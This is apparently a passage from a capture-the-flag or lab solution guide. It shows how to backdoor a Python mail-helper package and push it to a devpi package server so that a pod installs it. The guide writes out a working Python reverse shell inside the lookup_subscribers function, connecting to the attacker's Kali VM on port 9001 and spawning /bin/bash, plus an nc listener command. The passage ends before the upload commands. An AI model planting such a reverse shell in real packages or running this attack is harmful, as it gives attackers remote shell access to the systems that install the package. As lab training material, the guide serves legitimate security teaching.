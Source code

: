 ```bash
cd /home/user/Downloads
unzip MailSenderHelper-main.zip
cd mailsenderhelper
```

4. To modify the `lookup_subscribers` function, go to the downloaded `mailsenderhelper/mailhelper` directory and edit the file called `mail_sender_helper.py` using your favorite text editor. We'll use `nano` in this solution guide. 

```bash
cd /home/user/Downloads/mailsenderhelper/mailhelper
nano mail_sender_helper.py 
```

**Here is an example of a Python reverse shell in the `mail_sender_helper.py` file. Make sure you enter *your* Kali VM's IP address where indicated in the code below:**

```python
import sqlite3
import socket,subprocess,os
import pty

def lookup_subscribers():
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("<<IP OF YOUR KALI VM>>",9001))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  pty.spawn("/bin/bash")
  con = sqlite3.connect("spam.db")
  cur = con.cursor()
  res = cur.execute("SELECT subscribed, email FROM spam")
  subscribed, receiver = res.fetchone()
  return subscribed, receiver
```

5. Now, `mail_sender_helper.py` contains the reverse shell. We need to upload the new package into the **devpi** server for the `python-tool` pod to pick it up. But first, we must increment the version number in the `setup.py` file so it updates and executes your code: 

```bash
cd /home/user/Downloads/mailsenderhelper
nano setup.py
```

  The current version is `1.0`. Change it to `2.0` and save the file. 

6. Uploading the package automatically triggers the reverse shell. Now, open a new terminal and open a listener in port `9001` on your Kali VM.

```bash
nc -lvp 9001
```

7. Once the listener is ready, you can upload the package. Make sure you are not using the "listener" terminal for these steps; use a different terminal. To upload the package to the correct location, you must be in the directory where `setup.py` is and execute `devpi use http://10.1.1.51/emailAdmin/dev`. The commands are:
